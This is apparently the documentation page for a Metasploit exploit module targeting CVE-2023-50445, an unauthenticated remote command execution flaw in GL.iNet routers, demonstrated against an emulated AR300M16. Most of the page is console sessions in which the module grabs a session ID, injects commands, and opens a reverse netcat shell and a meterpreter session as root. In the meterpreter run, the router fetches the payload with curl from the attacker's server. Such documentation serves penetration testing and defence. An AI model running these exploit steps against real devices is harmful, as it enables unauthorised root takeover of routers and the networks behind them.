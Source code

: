 ## Options
### SID
This is the SessionID (`SID`) which you need for authentication.
The module will exploit and grab the `SID` autmatically, but you can also provide it manually by using this option.

## Scenarios
###  FirmAE GL.iNet AR300M16 Router Emulation Unix Command - cmd/unix/reverse_netcat
```shell
msf6 exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > set target 0
target => 0
msf6 exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > exploit

[*] Started reverse TCP handler on 192.168.8.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.8.1:80 can be exploited.
[!] The service is running, but could not be validated. Product info: |4.3.7|n/a
[*] SID: NsPHdkXtENoaotxVZWLqJorU52O7J0OI
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 8 opened (192.168.8.2:4444 -> 192.168.8.1:53167) at 2024-01-03 11:12:18 +0000

pwd
/
id
uid=0(root) gid=0(root) groups=0(root),65533(nonevpn)
uname -a
Linux GL- 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
exit
```
### FirmAE GL.iNet AR300M16 Router Emulation Linux Dropper - linux/mipsbe/meterpreter_reverse_tcp
```shell
msf6 exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > set target 1
target => 1
msf6 exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > exploit

[*] Started reverse TCP handler on 192.168.8.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.8.1:80 can be exploited.
[!] The service is running, but could not be validated. Product info: |4.3.7|n/a
[*] SID: Gs2KPnIsIQQUzHQkEBVN8JOcq5nV008e
[*] Executing Linux Dropper for linux/mipsbe/meterpreter_reverse_tcp
[*] Using URL: http://192.168.8.2:1981/OrfVHM15cua0w
[*] Client 192.168.8.1 (curl/7.88.1) requested /OrfVHM15cua0w
[*] Sending payload to 192.168.8.1 (curl/7.88.1)
[*] Meterpreter session 9 opened (192.168.8.2:4444 -> 192.168.8.1:48511) at 2024-01-03 08:30:52 +0000
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.8.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
```